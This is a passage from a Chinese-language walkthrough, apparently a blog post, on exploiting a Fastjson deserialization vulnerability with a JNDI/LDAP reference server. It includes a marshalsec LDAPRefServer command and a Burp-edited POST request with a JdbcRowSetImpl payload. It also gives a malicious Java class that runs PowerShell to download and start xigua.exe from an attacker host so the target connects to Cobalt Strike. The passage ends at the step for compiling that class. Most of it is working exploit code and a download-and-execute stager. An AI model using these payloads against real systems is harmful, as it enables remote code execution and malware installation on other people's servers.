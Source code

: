 这里的命令和 RMI 方式就一处不同

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.112.146/#evilclass" 9999
```

**5）BurpSuite 改包**

```
POST /fastjson HTTP/1.1
Host: 192.168.112.140:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 133

{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://192.168.112.146:9999/evilclass",
"autoCommit":true
}
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaaYicpZNZmvPARM8arBoYiaKibfqaicKVxSeaic9m38V89dmYYg7oUPQ0vYQ/640?wx_fmt=jpeg)

经测试，使用 RMI 方式无法执行远程命令

**0x04 上线 Cobalt Strike**

这部分虽然和上面的类似，但记录详细些，以后用得到

```
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"powershell", "-Command", "(new-object System.Net.WebClient).DownloadFile('http://192.168.112.146/xigua.exe','xigua.exe');start-process xigua.exe"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

**1）javac 编译恶意类 class**
